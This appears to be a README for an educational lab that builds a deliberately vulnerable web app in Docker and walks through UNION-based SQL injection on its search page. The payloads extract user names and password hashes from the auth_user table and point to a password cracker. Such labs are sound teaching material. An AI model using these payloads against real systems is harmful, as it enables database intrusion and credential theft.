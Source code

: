 How to perform a SQL Injection Attack
add a test line just for learning reasons
### Build

docker build -t logstoneducation/sql-injection:0.0.1 .

### Run

docker run --rm -p 8000:8000 logstoneducation/sql-injection:0.0.1

### Exploit

1. http://127.0.0.1:8000/items/search
  1. Search for a few items (eg. Madison)
1. Check if the search is vulnerable by searching for `blah' UNION SELECT 1'`.
   This cause us to search for "blah" and then UNION that with a `SELECT 1`
   call.
1. It takes some trial and error before we find out the name of the user table:
1. Search for `z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '`
   1. `SELECT name FROM orders_item WHERE name LIKE '%z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '%'`
1. Instead of searching for `first_name`, we can search for `password`.
   1. `SELECT name FROM orders_item WHERE name LIKE '%z' UNION SELECT password FROM auth_user WHERE first_name LIKE '%'`

Now we can take these and pass them to a password cracker like [JTR](https://en.wikipedia.org/wiki/John_the_Ripper).
